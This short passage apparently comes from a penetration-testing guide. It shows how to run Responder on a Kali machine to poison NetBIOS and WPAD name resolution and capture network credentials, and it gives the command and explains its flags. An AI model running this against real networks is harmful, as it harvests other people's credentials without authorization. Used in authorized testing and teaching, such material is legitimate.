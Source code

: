 #### 6.5.1.1 Gather credentials using Responder

Begin running responder on your Kali machine with the following command:

```bash
sudo responder -I eth0 -dwv
```

`-I` to listen on your eth0 network interface, `-d` to enable answers for NetBIOS domain, `-w` to start WPAD rouge proxy server, `-v` for verbose output. These are the most common settings.

![](<../.gitbook/assets/image (17).png>)
